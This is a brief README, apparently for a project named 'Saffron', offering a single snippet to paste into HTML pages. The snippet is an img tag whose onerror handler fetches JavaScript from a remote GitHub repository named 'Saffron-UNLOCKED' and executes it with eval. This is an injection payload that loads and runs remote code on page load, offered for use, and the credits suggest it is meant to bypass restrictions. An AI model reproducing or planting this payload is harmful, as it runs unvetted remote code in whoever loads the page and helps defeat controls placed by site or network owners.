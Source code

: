 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

